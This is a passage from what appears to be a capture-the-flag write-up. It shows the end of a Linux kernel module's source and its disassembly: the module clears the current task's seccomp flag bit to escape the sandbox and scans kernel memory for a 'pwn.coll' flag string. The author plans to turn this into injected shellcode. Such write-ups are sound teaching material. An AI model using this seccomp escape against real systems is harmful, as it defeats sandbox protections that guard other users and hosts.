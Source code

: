 ```c
    return 0;

}

void cleanup_module(void)

{
    printk(KERN_INFO "Escaped lol!");

}
```

This module can be used to escape the seccomp filter when we will compile this module and try to look at assembly we will get something like this.


```
Disassembly of section .text.unlikely:

0000000000000000 <init_module>:
   0:   48 c7 c7 00 00 00 00    mov    rdi,0x0
   7:   e8 00 00 00 00          call   c <init_module+0xc>
   c:   65 48 8b 04 25 00 00    mov    rax,QWORD PTR gs:0x0
  13:   00 00 
  15:   48 81 20 ff fe ff ff    and    QWORD PTR [rax],0xfffffffffffffeff
  1c:   31 c0                   xor    eax,eax
  1e:   c3                      ret    

000000000000001f <cleanup_module>:
  1f:   55                      push   rbp
  20:   48 c7 c7 00 00 00 00    mov    rdi,0x0
  27:   48 bd 70 77 6e 2e 63    movabs rbp,0x6c6c6f632e6e7770
  2e:   6f 6c 6c 
  31:   53                      push   rbx
  32:   bb 00 01 00 00          mov    ebx,0x100
  37:   e8 00 00 00 00          call   3c <cleanup_module+0x1d>
  3c:   48 8b 35 00 00 00 00    mov    rsi,QWORD PTR [rip+0x0]        # 43 <cleanup_module+0x24>
  43:   48 01 de                add    rsi,rbx
  46:   48 39 2e                cmp    QWORD PTR [rsi],rbp
  49:   75 0f                   jne    5a <cleanup_module+0x3b>
  4b:   48 89 f2                mov    rdx,rsi
  4e:   48 c7 c7 00 00 00 00    mov    rdi,0x0
  55:   e8 00 00 00 00          call   5a <cleanup_module+0x3b>
  5a:   48 81 c3 00 10 00 00    add    rbx,0x1000
  61:   48 81 fb 00 a1 3f 7c    cmp    rbx,0x7c3fa100
  68:   75 d2                   jne    3c <cleanup_module+0x1d>
  6a:   5b                      pop    rbx
  6b:   5d                      pop    rbp
  6c:   c3                      ret    
```

Now let's focus on this part only because we want to inject shellcode which can escape the seccomp.
